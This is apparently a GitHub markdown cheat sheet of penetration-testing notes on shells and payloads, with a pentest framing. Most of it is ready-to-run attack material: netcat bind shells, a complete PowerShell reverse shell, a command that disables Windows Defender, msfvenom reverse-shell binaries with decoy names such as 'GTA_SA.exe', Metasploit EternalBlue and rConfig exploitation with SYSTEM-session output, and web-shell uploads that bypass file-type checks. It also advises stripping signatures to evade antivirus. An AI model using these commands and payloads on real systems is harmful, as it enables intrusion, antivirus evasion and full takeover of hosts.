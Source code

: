 # 🐚 Shells & Payloads  
*Delve into the forbidden arts of initial compromise, where whispers in the void become footholds in vulnerable hosts. This module equips the practitioner with eldritch techniques to summon shells and craft payloads—essential rites in breaching the veil between attacker and target, be they Windows or Linux systems.*

> *“To speak with the machine, one must first teach it to listen.”*

<details>
<summary><h1>📌 Shell Basics</h1></summary>

<details>  
<summary><h2>⏩ Bind Shells</h2></summary>

<details>
<summary><h3>Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
nc -lvnp <PORT>
```

**Attack Machine: Connecting to target**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

</details>

<details>
<summary><h3>Establishing a Basic Bind Shell with Netcat</h3></summary>  

**Target Machine: Starting Netcat listener**  

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PORT> > /tmp/f
```  

**Attack Machine: Starting Netcat listener**  

```bash
nc -nv <IP> <PORT>
```

> **Note:** Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical.

</details>

</details>

<details>  
<summary><h2>⏪ Reverse Shells</h2></summary>
<details>
<summary><h3>Basic Reverse Shell with Netcat</h3></summary>  

**Attack Machine: Starting a listener**  

```bash
sudo nc -lvnp <PORT>
```

**Target Machine(Windows - CMD): Connect to the Attack Machine**  
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

If you get an error like this one:  
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
+ CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Disable the antivirus using Powershell
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Re-run the CMD command.

</details>
</details>

</details>

<details>
<summary><h1>📦 Payloads</h1></summary>
<details>
<summary><h3>Metasploit - Example</h3></summary>  

```bash
sudo msfconsole
```

**Inside the MSF Console**  

Searching Within Metasploit  

```bash
search smb
```

Selecting an Exploit  

```bash
use 56
```

Examining an Exploit's Options  

```bash
options
```

Setting Options  

```bash
set RHOSTS <TARGET IP>
set SMBUser <USER>
set SMBPass <PASSWORD>
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
set PAYLOAD windows/meterpreter/reverse_tcp
```

Exploits Away  

```bash
run

# [*] Meterpreter session 1 opened (<ATTACKER IP>:<ATTACKER PORT> -> <TARGET IP>:<TARGET PORT>) at 2025-06-20 10:56:44 -0500

# (Meterpreter 1)(C:\Windows\system32) > 
```

</details>
<details>
<summary><h3>Crafting payloads with MSFvenom</h3></summary>  

**Attack Machine: List Payloads** 

```bash
msfvenom -l payloads
```

**Attack Machine: Building A Stageless Payload** 

```bash
msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -f <FILE FORMAT> > <OUTPUT FILE>
```

Examples:  

> **Linux:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

> **Windows:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > GTA_SA.exe  

**Target Machine: Download and execute** 

There are countless ways this can be done. Here are just some of the common ways:

> Email message with the file attached.  

> Download link on a website.  

> Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).  

> Via flash drive as part of an onsite penetration test.  

The payload in this form would almost certainly be detected by Windows Defender AV.


</details>
</details>


<details>
<summary><h1>🪟 Windows Shells</h1></summary>  
<details>
<summary><h3>Infiltrating Windows</h3></summary>  
<details>
<summary><h4>Enumerating Windows & Fingerprinting Methods</h4></summary>  

When utilizing ICMP to determine if the host is up, a typical response from a Windows host will either be 32 or 128. A response of or around 128 is the most common response you will see.  

**Attack Machine:** Ping target
```bash
PING <WINDOWS IP> (<WINDOWS IP>): 56 data bytes
64 bytes from <WINDOWS IP>: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from <WINDOWS IP>: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from <WINDOWS IP>: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from <WINDOWS IP>: icmp_seq=3 ttl=128 time=11.265 ms
```

**Attack Machine:** Initialize an OS Identification scan against our target  

```bash
sudo nmap -v -O <WINDOWS IP>
```

**Attack Machine:** For each port Nmap sees as up, it will attempt to connect to the port and glean any information it can from it.  

```bash
sudo nmap -v <WINDOWS IP> --script banner.nse
```

> The examples shown above are just a few ways to help fingerprint and determine if a host is a Windows machine. It is by no means an exhaustive list, and there are many other checks you can do.

</details>

<details>
<summary><h4>Payload Types to Consider</h4></summary>

**DLLs:** File used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. Injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

**Batch:** Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter.  

**VBS:** Lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

**MSI:** When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an .msi file. Once we have it on the host, we can run msiexec to execute our file, which will provide us with further access, such as an elevated reverse shell.

**Powershell:** It is both a shell environment and scripting language. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

</details>

<details>
<summary><h4>Procedures for Payload Generation, Transfer, and Execution</h4></summary>

* [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework): MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host. Think of it as a swiss-army knife.

* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings): Here, you can find many different resources and cheat sheets for payload generation and general methodology.

* [Mythic C2 Framework](https://github.com/its-a-feature/Mythic): Alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.

* [Nishang](https://github.com/samratashok/nishang): Framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

* [Darkarmour](https://github.com/bats3c/darkarmour): Tool to generate and utilize obfuscated binaries for use against Windows hosts.

</details>
</details>

<details>
<summary><h3>Example Compromise Walkthrough</h3></summary>

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -Pn -sS -T4 -sV -sC -A -O --min-rate 5000 <WINDOWS IP> -oX nmap_target_xml_scan.xml
xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
use auxiliary/scanner/smb/smb_ms17_010 
show options
set RHOSTS <WINDOWS IP>
run
```

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

**Attack Machine: Choose & Configure Our Exploit & Payload**

```bash
search eternal
use 2
options
```

Since I have had more luck with the psexec version of this exploit, we will try that one first. Let's choose it and continue the setup.

**Attack Machine: Validate Our Options**  

```bash
show options
```

This time, we kept it simple and just used a windows/meterpreter/reverse_tcp payload.

**Attack Machine: Execute Our Attack**  

```bash
exploit

# [*] Started reverse TCP handler on <ATTACKER IP>:4444 
# [*] <WINDOWS IP>:445 - Target OS: Windows Server 2016 Standard 14393
# [*] <WINDOWS IP>:445 - Built a write-what-where primitive...
# [+] <WINDOWS IP>:445 - Overwrite complete... SYSTEM session obtained!
```

Now that we have an open session through Meterpreter, we are presented with the meterpreter > prompt
If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

**Attack Machine: Verify Our Session**  

```bash
getuid

# Server username: NT AUTHORITY\SYSTEM
```

From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host.


**Attack Machine: Identify Our Shell**  
```bash
shell

# Process 4844 created.
# Channel 1 created.
# Microsoft Windows [Version 10.0.14393]
# (c) 2016 Microsoft Corporation. All rights reserved.

# C:\Windows\system32>
```

When we executed the Meterpreter command shell, it started another process on the host and dropped us into a system shell.

</details>

<details>
<summary><h3>CMD or PowerShell</h3></summary>

<details>
<summary><h4>Differences</h4></summary>

# CMD vs PowerShell Comparison

| Feature          | CMD                              | PowerShell                      |
|------------------|----------------------------------|---------------------------------|
| **Origin**       | Original MS-DOS shell            | Designed to expand CMD's capabilities |
| **Command Language** | Native MS-DOS commands (`dir`, `ipconfig`) | Supports both MS-DOS and **.NET cmdlets** (`Get-ChildItem`, `Copy-Item`) |
| **Input/Output** | Text-based                       | **.NET objects** (structured data) |
| **Scripting**    | Basic batch files (`.bat`, `.cmd`) | Advanced scripts (`.ps1`) with loops, modules, and functions |
| **Command History** | **No** session logging | Keeps history of executed commands |
| **Security**     | No Execution Policy restrictions | Restricted by **Execution Policy** (e.g., `Restricted`, `RemoteSigned`) and UAC |
| **Availability** | Works on **all Windows versions** | Only available on **Windows 7+** |
| **Extensibility** | Limited to built-in commands | Supports **custom modules** and cmdlets |


</details>

<details>
<summary><h4>Which one is the right one to use?</h4></summary>

**Use CMD when:**

* You are on an older host that may not include PowerShell.

* When you only require simple interactions/access to the host.

* When you plan to use simple batch files, net commands, or MS-DOS native tools.

* When you believe that execution policies may affect your ability to run scripts or other actions on the host.

**Use PowerShell when:**

* You are planning to utilize cmdlets or other custom-built scripts.

* When you wish to interact with .NET objects instead of text output.

* When being stealthy is of lesser concern.

* If you are planning to interact with cloud-based services and hosts.

* If your scripts set and use Aliases.

</details>

</details>
</details>

<details>
<summary><h1>🐧 Linux/UNIX Shells</h1></summary>  
<details>
<summary><h2>Infiltrating Linux/UNIX</h2></summary>  

**Attack Machine: Enumerate the host**  

```bash
sudo nmap -sS -sV -sC -v -A -O <TARGET IP> --script banner.nse -oX nmap_target_xml_scan.xml > /dev/null 1 2>&1

xsltproc nmap_target_xml_scan.xml -o nmap_target_html_scan.html
```

**Attack Machine: Start Metasploit**  

Open msfconsole and search for the for the identified service.

```bash
msfconsole
```

**Attack Machine: Determine an Exploit Path**  

```bash
search rconfig
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**Attack Machine: Configure Exploit Options**  

```bash
options
set RHOSTS <TARGET IP>
set LHOST <ATTACKER IP>
```

**Attack Machine: Execute the Exploit**  
```bash
exploit
```

**Attack Machine: Interact With the Shell**  
```bash
shell
```

**Attack Machine: Interact With the Shell**  
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```

</details>

<details>
<summary><h2>Spawning Interactive Shells</h2></summary>  

<details>
<summary><h3>Spawn a shell</h3></summary>  

There may be times that we land on a system with a limited shell, and Python is not installed. In these cases, it's good to know that we could use several different methods to spawn an interactive shell. 

**/bin/sh**

This command will execute the shell interpreter specified in the path in interactive mode (-i).

```bash
/bin/sh -i
# sh: no job control in this shell
```

**Perl**

If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl: exec "/bin/sh";\
# This command should be run from a script.
```

**Ruby**

If the programming language Ruby is present on the system, this command will execute the shell interpreter specified:

```bash
ruby: exec "/bin/sh"
# This command should be run from a script.
```

**Lua**

If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below:

```bash
lua: os.execute('/bin/sh')
# This command should be run from a script.
```

**AWK**

AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. 

```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria.

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Exec**

This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.

```bash
find . -exec /bin/sh \; -quit
```

**VIM**

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor VIM. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.

Vim To Shell  

```bash
vim -c ':!/bin/sh'
```

Vim Escape  
```bash
vim
:set shell=/bin/sh
:shell
```

</details>

<details>
<summary><h4>Execution Permissions</h4></summary>  

Permissions
```bash
ls -la <PATH>
```

Sudo
```bash
sudo -l
```

> Not only will considering permissions allow us to see what commands we can execute, but it may also start to give us an idea of potential vectors that will allow us to escalate privileges.

</details>

</details>

</details>

<details>
<summary><h1>🌐 Web Shells</h1></summary>  

A web shell is a browser-based shell session we can use to interact with the underlying operating system of a web server. To achieve persistence on a system, in many cases, this is the initial way of gaining remote code execution via a web application, which we can then use to later upgrade to a more interactive reverse shell.

During our external penetration tests, we most commonly "get in" (gain a foothold inside the internal network) via web application attacks (file upload attacks, SQL injection, RFI/LFI, command injection, etc.), password spraying (against RDS, VPN portals, Citrix, OWA, and other applications using Active Directory authentication), and social engineering.

Web applications are often the majority of what we see exposed during an external network assessment and often present an enormous attack surface. We may find publicly available file upload forms that let us directly upload a PHP, JSP, or ASP.NET web shell.

<details>
<summary><h2>Laudanum</h2></summary>  

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include asp, aspx, jsp, php, and more.

<details>
<summary><h3>Installation</h3></summary>  

Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use.

**Clone the repository**
```bash
sudo git clone https://github.com/jbarcia/Web-Shells.git /usr/share/laudanum
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

The Laudanum files can be found in the /usr/share/laudanum directory. For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run.

**Move a Copy for Modification**
```bash
cp /usr/share/laudanum/aspx/shell.aspx ./shell.aspx
```

**Modify the Shell for Use**

Add your IP address to the allowedIps variable

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the Laudanum shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Antak Webshell</h2></summary>  

Antak is a web shell built in ASP.Net included within the Nishang project. Nishang is an Offensive PowerShell toolset that can provide options for any portion of your pentest. 

Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server. The UI is even themed like PowerShell.

<details>
<summary><h3>Installation</h3></summary>  

The Antak files can be found in the /usr/share/nishang/Antak-WebShell directory or in this [file](../scripts/shells/antak.aspx) included in this repository.

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/samratashok/nishang.git /usr/share/nishang/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Move a Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx ./shell.aspx
```

**Modify the Shell for Use**

Make sure you set credentials for access to the web shell (This can help make your operations more secure by ensuring random people can't just stumble into using the shell).

> **Note:** It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.

```bash
nano ./shell.aspx
```

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>PHP Web Shells</h2></summary>  

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master). We can download this or copy and paste the source code into a .php file.

<details>
<summary><h3>Installation</h3></summary>  

The script can be found [here](../scripts/shells/antak.aspx) or cloning WhiteWinterWolf's [repository](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/tree/master).

**Clone the complete nishang repository**
```bash
sudo git clone https://github.com/WhiteWinterWolf/wwwolf-php-webshell.git /usr/share/wwwolf-php-webshell/
```

</details>

<details>
<summary><h3>Usage</h3></summary>  

**Proxy Settings**

Start Burp Suite, navigate to the browser's network settings menu and fill out the proxy settings. 127.0.0.1 will go in the IP address field, and 8080 will go in the port field to ensure all requests pass through Burp (recall that Burp acts as the web proxy).

> **Note:** Our goal is to change the content-type to bypass the file type restriction in uploading files to be "presented" as something else so we can navigate to that file and have our web shell.

**Bypassing the File Type Restriction**  

We will change Content-type from application/x-php to image/gif. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select Forward.

**Upload the shell**  

We are taking advantage of the upload function of the page. Select your shell file and hit upload.

**Navigate to Our Shell**  

You may run into some implementations that randomize filenames on upload that do not have a public files directory or any number of other potential safeguards.
With this particular web application, our file went to _URL\\files\shell.aspx_ and will require us to browse for the upload by using that \ in the path instead of the / like normal.

**Shell Success** 

We can now utilize the antak shell we uploaded to issue commands to the host.

</details>

</details>

<details>
<summary><h2>Considerations when Dealing with Web Shells
</h2></summary>  

When utilizing web shells, consider the below potential issues that may arise during your penetration testing process:

* Web applications sometimes automatically delete files after a pre-defined period
* Limited interactivity with the operating system in terms of navigating the file system, downloading and uploading files, chaining commands together may not work (ex. whoami && hostname), slowing progress, especially when performing enumeration -Potential instability through a non-interactive web shell
* Greater chance of leaving behind proof that we were successful in our attack

Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and cover our tracks. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. 

</details>

</details>
